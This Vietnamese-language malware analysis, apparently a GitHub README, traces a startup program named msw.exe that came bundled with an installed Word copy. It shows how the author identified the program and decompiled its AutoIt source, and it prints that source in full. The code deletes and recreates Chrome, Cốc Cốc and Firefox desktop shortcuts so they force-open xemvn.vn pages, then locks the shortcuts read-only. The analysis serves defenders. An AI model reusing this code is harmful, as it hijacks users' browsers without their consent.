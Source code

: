 # Script tự động tạo shortcut trình duyệt
> Dính script này khi cài word có sẵn, khi khởi động máy shortcut các trình duyệt có trong máy sẽ tự động được tạo ngoài màn hình. Các shortcut này có các params phía sau để tự động mở các đường dẫn

## Nội dung
* [Tình trạng](#tinh-trang)
* [Đi theo dấu chân](#di-theo-dau-chan)
* [Phân tích bằng Detect It Easy và decode](#phan-tich-bang-detect-it-easy-va-decode)
* [Source code](#source-code)

## Tình trạng
Khi khởi động lại máy các shortcut của trình duyệt sẽ tự động được tạo ngoài màn hình, nhấp vào các shortcut này trình duyệt sẽ tự động mở các đường dẫn mà attacker đã thêm vào script
Khi xem properties của các shortcut này thì thấy có các params phía sau là đường dẫn các trang web. Đây là một thủ thuật rất hay.

![chromelnk](./images/chromelnk.PNG)

## Đi theo dấu chân
Vì các shortcut sẽ tự động được tạo mỗi khi khởi động lại máy nên nghi ngờ nhất là các chương trình nằm trong mục startup của windows.
Ta sẽ dò phần startup này trong task manager.

![task manager](./images/taskmanager.PNG)

Trong task manager nhận thấy có msw.exe là đáng nghi ngờ nhất nên sẽ mở nó thử.
Sau khi xóa hết các shortcut và chạy thủ công file msw.exe thì các shortcut tự động được tạo ra màn hình nên chắc chắn 100% là nó là cái ta đang tìm.

## Phân tích bằng Detect It Easy và decode
Dùng Detect It Easy thì thấy nó được viết bằng AutoIt.

![Detect It Easy](./images/detectiteasy.PNG)

Với AutoIt ta có tool để decode là exe2auto.

![Dùng exe2auto để decode](./images/exe2auto.PNG)

## Source code
Có thể cài [AutoIt](https://www.autoitscript.com/site/) để thử
```au3
    $file_name_1 = "*Chrome*"
    $file_name_2 = "*Cốc*"
    $file_name_3 = "*Firefox*"
    $file_name_4 = "*Coc*"
    $file_name_5 = "*browser*"
    FileSetAttrib(@DesktopDir & "\" & $file_name_1 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_1 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_1 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_1 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopDir & "\" & $file_name_2 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_2 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_2 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_2 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopDir & "\" & $file_name_3 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_3 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_3 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_3 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopDir & "\" & $file_name_4 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_4 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_4 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_4 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopDir & "\" & $file_name_5 & ".lnk", "-R")
    FileDelete(@DesktopDir & "\" & $file_name_5 & ".lnk")
    Sleep(250)
    FileSetAttrib(@DesktopCommonDir & "\" & $file_name_5 & ".lnk", "-R")
    FileDelete(@DesktopCommonDir & "\" & $file_name_5 & ".lnk")
    Sleep(250)
    ifileexists_chrome()
    ifileexists_coccoc()
    ifileexists_firefox()

    Func ifileexists_chrome()
        Local $ifileexists = FileExists(@HomeDrive & "\Program Files\Google\Chrome\Application\chrome.exe")
        If $ifileexists Then
            example_chrome()
        EndIf
        Local $ifileexists = FileExists(@HomeDrive & "\Program Files (x86)\Google\Chrome\Application\chrome.exe")
        If $ifileexists Then
            example_chrome_x86()
        EndIf
    EndFunc

    Func ifileexists_coccoc()
        Local $ifileexists = FileExists(@UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser.exe")
        If $ifileexists Then
            example_coccoc()
        EndIf
        Local $ifileexists = FileExists(@UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser_proxy.exe")
        If $ifileexists Then
            example_coccoc_proxy()
        EndIf
    EndFunc

    Func ifileexists_firefox()
        Local $ifileexists = FileExists(@HomeDrive & "\Program Files\Mozilla Firefox\firefox.exe")
        If $ifileexists Then
            example_firefox()
        EndIf
        Local $ifileexists = FileExists(@HomeDrive & "\Program Files (x86)\Mozilla Firefox\firefox.exe")
        If $ifileexists Then
            example_firefox_x86()
        EndIf
    EndFunc

    Func example_chrome()
        Local Const $sfilepath = @DesktopDir & "\Google Chrome.lnk"
        FileCreateShortcut(@HomeDrive & "\Program Files\Google\Chrome\Application\chrome.exe", $sfilepath, @HomeDrive & "\Program Files\Google\Chrome\Application", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Google Chrome", @HomeDrive & "\Program Files\Google\Chrome\Application\chrome.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_chrome_x86()
        Local Const $sfilepath = @DesktopDir & "\Google Chrome.lnk"
        FileCreateShortcut(@HomeDrive & "\Program Files (x86)\Google\Chrome\Application\chrome.exe", $sfilepath, @HomeDrive & "\Program Files (x86)\Google\Chrome\Application", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Google Chrome", @HomeDrive & "\Program Files (x86)\Google\Chrome\Application\chrome.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_coccoc()
        Local Const $sfilepath = @DesktopDir & "\Cốc Cốc.lnk"
        FileCreateShortcut(@UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser.exe", $sfilepath, @UserProfileDir & "\AppData\Local\CocCoc\Browser\Application", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Cốc Cốc", @UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_coccoc_proxy()
        Local Const $sfilepath = @DesktopDir & "\Cốc Cốc.lnk"
        FileCreateShortcut(@UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser_proxy.exe", $sfilepath, @UserProfileDir & "\AppData\Local\CocCoc\Browser\Application", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Cốc Cốc", @UserProfileDir & "\AppData\Local\CocCoc\Browser\Application\browser.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_firefox()
        Local Const $sfilepath = @DesktopDir & "\Firefox.lnk"
        FileCreateShortcut(@HomeDrive & "\Program Files\Mozilla Firefox\firefox.exe", $sfilepath, @HomeDrive & "\Program Files\Mozilla Firefox", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Firefox", @HomeDrive & "\Program Files\Mozilla Firefox\firefox.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Func example_firefox_x86()
        Local Const $sfilepath = @DesktopDir & "\Firefox.lnk"
        FileCreateShortcut(@HomeDrive & "\Program Files (x86)\Mozilla Firefox\firefox.exe", $sfilepath, @HomeDrive & "\Program Files (x86)\Mozilla Firefox", "http://xemvn.vn http://about.xemvn.vn/random-link/ http://about.xemvn.vn/random-link/", "Firefox", @HomeDrive & "\Program Files (x86)\Mozilla Firefox\firefox.exe", "", "0", @SW_SHOWMAXIMIZED)
        Local $adetails = FileGetShortcut($sfilepath)
    EndFunc

    Sleep(50)
    FileSetAttrib(@DesktopDir & "\Google Chrome.lnk", "+R")
    Sleep(50)
    FileSetAttrib(@DesktopDir & "\Cốc Cốc.lnk", "+R")
    Sleep(50)
    FileSetAttrib(@DesktopDir & "\Firefox.lnk", "+R")
```

## Tác giả
Created by [iotlab.dev](https://iotlab.dev/) with :heartpulse:!
